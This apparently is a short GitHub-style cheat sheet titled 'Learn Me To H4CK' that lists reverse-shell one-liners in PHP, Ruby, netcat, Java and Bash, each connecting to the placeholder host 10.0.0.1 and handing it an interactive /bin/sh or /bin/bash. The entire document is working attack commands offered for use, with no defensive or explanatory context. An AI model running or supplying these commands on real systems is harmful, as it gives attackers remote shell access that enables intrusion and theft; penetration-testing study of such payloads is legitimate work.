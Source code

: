 # Learn Me To H4CK:

PHP RevShell:

    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby RevShell:

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  
Nc RevShell:

    nc -e /bin/sh 10.0.0.1 1234
  
Java RevShell:

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
  
Bash RevShell:

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
